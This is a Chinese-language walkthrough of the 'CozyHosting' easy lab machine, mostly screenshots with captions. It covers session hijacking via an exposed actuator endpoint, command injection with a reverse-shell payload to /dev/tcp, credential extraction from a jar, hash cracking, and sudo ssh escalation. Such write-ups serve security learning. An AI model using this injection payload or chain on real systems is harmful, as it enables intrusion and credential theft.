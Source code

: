 ![圖片](https://github.com/favorite986141/jamescao/assets/125249893/ca53d48d-8c3e-4d90-9c0b-5992be7d2797)CozyHosting Level:Easy
===
尋找user.txt
---
1.Nmap掃描IP，發現有開22、80

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/be94bec4-7737-4fb2-8017-4f20fccf7517)

2.使用dirsearch搜尋目錄，找到/actuator/sessions，內容跟session有關

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/969ec080-c913-4f63-b819-1aa035fd5303)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a068678f-5ba5-48ce-8923-3fc98f91c180)

3.透過session cookie登入Web

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/df05fe7b-4e80-4c59-b946-eb1746901947)

4.找到疑似可執行ssh，透過burpsuite抓包測試確認可以執行指令

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f05c4cc3-a6d0-4d1f-bfd4-33d3ab5bcc4e)

5.插入reverse shell取得shell

     ;`(sh)0>/dev/tcp/10.10.14.62/1234`   ;表示指令分隔符，它可以讓你在一行中連續執行多個指令。 ``反引號（backticks），表示執行包裹在其內部的命令，並將其輸出插入到命令列中。
 
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/eb0de815-97af-4104-bfd9-5ccb5aea6225)

6.輸入exec >&0，它會將腳本或程式的輸出重新定向到標準輸入，這通常被用於隱藏輸出或將輸出發送到相同的地方作為輸入，以便與輸入進行互動。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9048a526-b34b-46a3-834b-158df8333b02)

7.最後輸入script /dev/null -c bash，將輸出記錄到/dev/null就會被拋棄。這樣執行的命令不會在目標上留下任何痕跡

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1d0621b2-8094-4c44-b98c-00f323093450)

8.在當前目錄下沒有user.txt但發現有一個jar包，將jar包載下來

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/bb41f8bb-e22f-433a-b1ce-b32306443242)

9.解開jar包，使用grep 找出postgres的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/70c02312-0773-4199-9b55-d07483c3b52e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/ceb7f02e-d4a9-4d8a-b0b4-df1927125c9e)

10.看到postgres服務是開啟的

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f184b159-513c-465a-99e8-3d963383a0e3)

11.連入postgres

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e466690-9663-4a26-9d5b-65bdaf120231)

12.可以看到兩個表hosts、users，關注users這張表

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/d3ecc83f-5181-42a6-8051-8cd4b655f1a2)

13.找到了兩個帳號

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f063f5cf-559a-4c8a-a5a0-25b65bc1fd74)

14.破解admin密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e7ef2237-92cb-450e-a256-d4c2d7967ae0)

15.試了三次都失敗，可能不是admin的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0495abd2-5ef2-48f8-b12c-1bfeec816f38)

16.檢查/etc/passwd，發現還有josh帳號，使用josh登入成功

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1737df42-4cfd-4387-b9bc-1400f818da4e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/3363ba3a-7f98-44ca-86e0-8790d239b30f)

17.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/7d3bcc1e-2246-4153-b22f-f8770b666be5)

18.執行sudo -l發現SSH 可以使用 root 權限執行。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1aa189e9-4cf6-4c3a-a9e2-62c70a61938e)

19.到[gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo)
